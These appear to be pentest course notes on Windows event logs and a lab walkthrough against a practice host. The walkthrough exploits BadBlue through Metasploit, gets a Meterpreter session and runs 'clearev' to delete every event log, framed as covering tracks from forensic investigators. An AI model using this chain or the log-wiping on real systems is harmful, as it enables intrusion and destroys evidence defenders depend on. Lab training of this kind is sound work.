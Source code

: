 #### Clearing-win-logs
- Windows os stores and catalog all actions/events performed on the system and stores them in the windows event log.
- Event logs are categorized based on the type of events the store
- Application logs:Stores application/program events like startups.crashes etc.
- System logs:Stores system events like startups.reboot etc.
- Security logs:Stores security events like password changes authentication failure etc.
- Event logs can be accessed via the event viewer on windows
- The event logs are the first stop for any forensics investigator after a compromise has been detected.It is therefore very important to clear your tracks after you done with your assessment.
#### lab
- service postgresql start
- msfconsole
- workspace -a clearlog
- setg RHOSTS demo.ine.local
- db_nmap -sS -sV demo.ine.local
- search badblue [ badblue is running in port 80 find from nmap scan]
- use exploit/windows/http/badblue_passthru
- set target BadBlue\ EE\ 2.7\ Universal
- exploit
- this give us meterpere sessions
- clearev [ this will delete all the event logs ]
